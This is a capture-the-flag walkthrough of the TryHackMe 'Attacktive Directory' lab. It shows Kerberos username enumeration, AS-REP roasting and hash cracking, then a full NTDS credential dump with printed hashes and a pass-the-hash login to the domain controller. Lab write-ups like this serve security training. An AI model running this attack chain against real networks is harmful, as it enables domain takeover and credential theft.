






[https://tryhackme.com/room/attacktivedirectory](https://tryhackme.com/room/attacktivedirectory)

Let's start off with a Nmap scan.

rustscan --range 1-65535 -a 10.10.85.196 -- -A -T4 -Pn -sC -sV

Open 10.10.85.196:53
Open 10.10.85.196:88
Open 10.10.85.196:80
Open 10.10.85.196:135
Open 10.10.85.196:139
Open 10.10.85.196:389
Open 10.10.85.196:445
Open 10.10.85.196:464
Open 10.10.85.196:593
Open 10.10.85.196:636
Open 10.10.85.196:3268
Open 10.10.85.196:3269
Open 10.10.85.196:5985
Open 10.10.85.196:3389
Open 10.10.85.196:9389
10.10.85.196
Open 10.10.85.196:47001
Open 10.10.85.196:49685
Open 10.10.85.196:49674
Open 10.10.85.196:49675
Open 10.10.85.196:49665
Open 10.10.85.196:49669
Open 10.10.85.196:49696
Open 10.10.85.196:49664
Open 10.10.85.196:49676
Open 10.10.85.196:49666
Open 10.10.85.196:49679
Open 10.10.85.196:49823

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain?       syn-ack
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|\_    bind
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|\_  Potentially risky methods: TRACE
|\_http-server-header: Microsoft-IIS/10.0
|\_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2022-07-21 18:24:36Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn\_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
3389/tcp  open  ms-wbt-server syn-ack Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target\_Name: THM-AD
|   NetBIOS\_Domain\_Name: THM-AD
|   NetBIOS\_Computer\_Name: ATTACKTIVEDIREC
|   DNS\_Domain\_Name: spookysec.local
|   DNS\_Computer\_Name: AttacktiveDirectory.spookysec.local
|   Product\_Version: 10.0.17763
|\_  System\_Time: 2022-07-21T18:27:01+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Issuer: commonName=AttacktiveDirectory.spookysec.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-07-20T18:02:47
| Not valid after:  2023-01-19T18:02:47
| MD5:   c0e9 1671 f9a1 055f 7a99 8eb3 3aa2 077b
| SHA-1: 8c10 0fba 5ff3 87c1 1510 cb22 e899 5f2b 0085 2f26
| -----BEGIN CERTIFICATE-----
| MIIDCjCCAfKgAwIBAgIQbVKkjjpGlLZEh1nar+1k4jANBgkqhkiG9w0BAQsFADAu
| MSwwKgYDVQQDEyNBdHRhY2t0aXZlRGlyZWN0b3J5LnNwb29reXNlYy5sb2NhbDAe
| Fw0yMjA3MjAxODAyNDdaFw0yMzAxMTkxODAyNDdaMC4xLDAqBgNVBAMTI0F0dGFj
| a3RpdmVEaXJlY3Rvcnkuc3Bvb2t5c2VjLmxvY2FsMIIBIjANBgkqhkiG9w0BAQEF
| AAOCAQ8AMIIBCgKCAQEA2UwRk6XaSb4Ez0EcLZtavUDxYVN+AMqRrD97GR6XvOnI
| Q2CBSBvC+cBu3Mw10od4DQOhXGgc63WMv1hR6vnyYZUwf1hBH4I4VKz64nXQnli8
| pkuolpF72iQSom2Y6CkEtLWNJvWs1kZ1SKAS/FPMWvVUFBp7CC2gm5lWIvmfiKNh
| /D4jGPNHVxlW3FTHIMKSm34Vuoy4L708iyPtseFxPE7CQ/K0docuceOHZICfuY8v
| s/eo3ejkCDRfXA3mYNIZ9XOz9m/Sb/+hUS/mYhSJ/fy0qS+yAcaUwPEOCHXtzJHs
| uWKd6ubjAenUnAcrRw/VuBVrhhABXMWWSn3chsGjbQIDAQABoyQwIjATBgNVHSUE
| DDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBAKws
| vcROgyp10XeAzb/1oOvEYqz5++YWr67twPHvrCv2GLC+M1us6EF2kjxotyURXBSX
| uUGsw7FczClKDXrZYVZ6Qac4fo6nQKI0W2gVm9DfIZjiDkeR6QC9d5um4IHQT7+C
| llsQioFudW3znqBzjtzt2yhmvZQjvjYcOqFLi99GeBOoRnboJkW46lXYCfpQa9xr
| Dg4Gcntormf2ovoTxuh+RGtTuFp4g5dtKGZRMDR/0PMWTKYTAydMo6O+2PkiYvsv
| CgyB8ckQ1dMn9Z+pbQzFWy4vZTmKmrCxx7tb5Fl1xTLx1B64j7lHMEtOSDq2OkvZ
| aNC7a2Zkqa9sShAEJRQ=
|\_-----END CERTIFICATE-----
|\_ssl-date: 2022-07-21T18:27:15+00:00; 0s from scanner time.
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|\_http-server-header: Microsoft-HTTPAPI/2.0
|\_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|\_http-server-header: Microsoft-HTTPAPI/2.0
|\_http-title: Not Found
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49674/tcp open  msrpc         syn-ack Microsoft Windows RPC
49675/tcp open  ncacn\_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         syn-ack Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack Microsoft Windows RPC
49685/tcp open  msrpc         syn-ack Microsoft Windows RPC
49696/tcp open  msrpc         syn-ack Microsoft Windows RPC
49823/tcp open  msrpc         syn-ack Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=7/21%Time=62D999E8%P=x86\_64-alpine-linux-musl%r
SF:(DNSVersionBindReqTCP,20,"\\0\\x1e\\0\\x06\\x81\\x04\\0\\x01\\0\\0\\0\\0\\0\\0\\x07ver
SF:sion\\x04bind\\0\\0\\x10\\0\\x03");
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|\_clock-skew: mean: 0s, deviation: 0s, median: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 10648/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 31877/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 24974/udp): CLEAN (Failed to receive data)
|   Check 4 (port 17949/udp): CLEAN (Timeout)
|\_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|\_    Message signing enabled and required
| smb2-time: 
|   date: 2022-07-21T18:27:02
|\_  start\_date: N/A

We can see port 88 is open. The machine is likely the domain controller. Let's see if we can abuse Kerberos.

We'll be using Kerbrute to enumerate usernames. [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)

Setup:

go install github.com/ropnop/kerbrute@latest

Now we're going to enumerate usernames with the provided userlist.txt.

kerbrute userenum ../userlist --dc 10.10.85.196 -d spookysec.local

svc-admin and Administrator look interesting.

Using Impacket, we'll be trying to capture a TGT ticket.

GetNPUsers.py spookysec.local/svc-admin -no-pass -dc-ip 10.10.85.196

svc-admin TGT was not secured with a password.

Let's try to crack the krb5, type 23, as-rep hash with the provided password list using hashcat.

./hashcat.exe -a 0 -m 18200 clipboard.txt ..\\passwordlist.txt

We have a password!

Next, we'll try to connect to SMB to see what we have access to.

We have access to backup, and there is an interesting text file inside.

smbclient  10.10.85.196\\backup -U spookysec.local/svc-admin%\*\*\*\*\*\*\*\*\*

mget \*
y

We'll try to decode the hash using [CyberChef](https://gchq.github.io/CyberChef/)

We have new credentials for backup. backup@spookysec.local:\*\*\*\*\*\*\*\*\*\*

Backup allows all user hashes to be synced with the user account.

We'll abuse this by dumping all the hashes.

secretsdump.py spookysec.local/backup:\*\*\*\*\*\*\*\*\*@10.10.85.196

Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

\[-\] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc\_s\_access\_denied 
\[\*\] Dumping Domain Credentials (domain\\uid:rid:lmhash:nthash)
\[\*\] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:1e4a50e015fa938d24f56226a3b2c961:::
\[\*\] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902
krbtgt:des-cbc-md5:b94f97e97fabbf5d
spookysec.local\\skidy:aes256-cts-hmac-sha1-96:3ad697673edca12a01d5237f0bee628460f1e1c348469eba2c4a530ceb432b04
spookysec.local\\skidy:aes128-cts-hmac-sha1-96:484d875e30a678b56856b0fef09e1233
spookysec.local\\skidy:des-cbc-md5:b092a73e3d256b1f
spookysec.local\\breakerofthings:aes256-cts-hmac-sha1-96:4c8a03aa7b52505aeef79cecd3cfd69082fb7eda429045e950e5783eb8be51e5
spookysec.local\\breakerofthings:aes128-cts-hmac-sha1-96:38a1f7262634601d2df08b3a004da425
spookysec.local\\breakerofthings:des-cbc-md5:7a976bbfab86b064
spookysec.local\\james:aes256-cts-hmac-sha1-96:1bb2c7fdbecc9d33f303050d77b6bff0e74d0184b5acbd563c63c102da389112
spookysec.local\\james:aes128-cts-hmac-sha1-96:08fea47e79d2b085dae0e95f86c763e6
spookysec.local\\james:des-cbc-md5:dc971f4a91dce5e9
spookysec.local\\optional:aes256-cts-hmac-sha1-96:fe0553c1f1fc93f90630b6e27e188522b08469dec913766ca5e16327f9a3ddfe
spookysec.local\\optional:aes128-cts-hmac-sha1-96:02f4a47a426ba0dc8867b74e90c8d510
spookysec.local\\optional:des-cbc-md5:8c6e2a8a615bd054
spookysec.local\\sherlocksec:aes256-cts-hmac-sha1-96:80df417629b0ad286b94cadad65a5589c8caf948c1ba42c659bafb8f384cdecd
spookysec.local\\sherlocksec:aes128-cts-hmac-sha1-96:c3db61690554a077946ecdabc7b4be0e
spookysec.local\\sherlocksec:des-cbc-md5:08dca4cbbc3bb594
spookysec.local\\darkstar:aes256-cts-hmac-sha1-96:35c78605606a6d63a40ea4779f15dbbf6d406cb218b2a57b70063c9fa7050499
spookysec.local\\darkstar:aes128-cts-hmac-sha1-96:461b7d2356eee84b211767941dc893be
spookysec.local\\darkstar:des-cbc-md5:758af4d061381cea
spookysec.local\\Ori:aes256-cts-hmac-sha1-96:5534c1b0f98d82219ee4c1cc63cfd73a9416f5f6acfb88bc2bf2e54e94667067
spookysec.local\\Ori:aes128-cts-hmac-sha1-96:5ee50856b24d48fddfc9da965737a25e
spookysec.local\\Ori:des-cbc-md5:1c8f79864654cd4a
spookysec.local\\robin:aes256-cts-hmac-sha1-96:8776bd64fcfcf3800df2f958d144ef72473bd89e310d7a6574f4635ff64b40a3
spookysec.local\\robin:aes128-cts-hmac-sha1-96:733bf907e518d2334437eacb9e4033c8
spookysec.local\\robin:des-cbc-md5:89a7c2fe7a5b9d64
spookysec.local\\paradox:aes256-cts-hmac-sha1-96:64ff474f12aae00c596c1dce0cfc9584358d13fba827081afa7ae2225a5eb9a0
spookysec.local\\paradox:aes128-cts-hmac-sha1-96:f09a5214e38285327bb9a7fed1db56b8
spookysec.local\\paradox:des-cbc-md5:83988983f8b34019
spookysec.local\\Muirland:aes256-cts-hmac-sha1-96:81db9a8a29221c5be13333559a554389e16a80382f1bab51247b95b58b370347
spookysec.local\\Muirland:aes128-cts-hmac-sha1-96:2846fc7ba29b36ff6401781bc90e1aaa
spookysec.local\\Muirland:des-cbc-md5:cb8a4a3431648c86
spookysec.local\\horshark:aes256-cts-hmac-sha1-96:891e3ae9c420659cafb5a6237120b50f26481b6838b3efa6a171ae84dd11c166
spookysec.local\\horshark:aes128-cts-hmac-sha1-96:c6f6248b932ffd75103677a15873837c
spookysec.local\\horshark:des-cbc-md5:a823497a7f4c0157
spookysec.local\\svc-admin:aes256-cts-hmac-sha1-96:effa9b7dd43e1e58db9ac68a4397822b5e68f8d29647911df20b626d82863518
spookysec.local\\svc-admin:aes128-cts-hmac-sha1-96:aed45e45fda7e02e0b9b0ae87030b3ff
spookysec.local\\svc-admin:des-cbc-md5:2c4543ef4646ea0d
spookysec.local\\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\\backup:des-cbc-md5:d601e9469b2f6d89
spookysec.local\\a-spooks:aes256-cts-hmac-sha1-96:cfd00f7ebd5ec38a5921a408834886f40a1f40cda656f38c93477fb4f6bd1242
spookysec.local\\a-spooks:aes128-cts-hmac-sha1-96:31d65c2f73fb142ddc60e0f3843e2f68
spookysec.local\\a-spooks:des-cbc-md5:e09e4683ef4a4ce9
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:d51d962e37fc1bdc8202110b7b01dd4c6181e097c66e1002869f126f001b7616
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:a853045f32cc1784926422d237f16d0a
ATTACKTIVEDIREC$:des-cbc-md5:7caee9a88f8f32e6
\[\*\] Cleaning up...

We got the Administrators hash!

Now, all we have to do is pass the hash using Evil-WinRm to get root access to the domain controller.

evil-winrm -H 0e0363213e\*\*\*\*\*\*\*\*\*\*0bcb4fc -i 10.10.85.196 -u Administrator

With admin access, we can see capture all the flags!
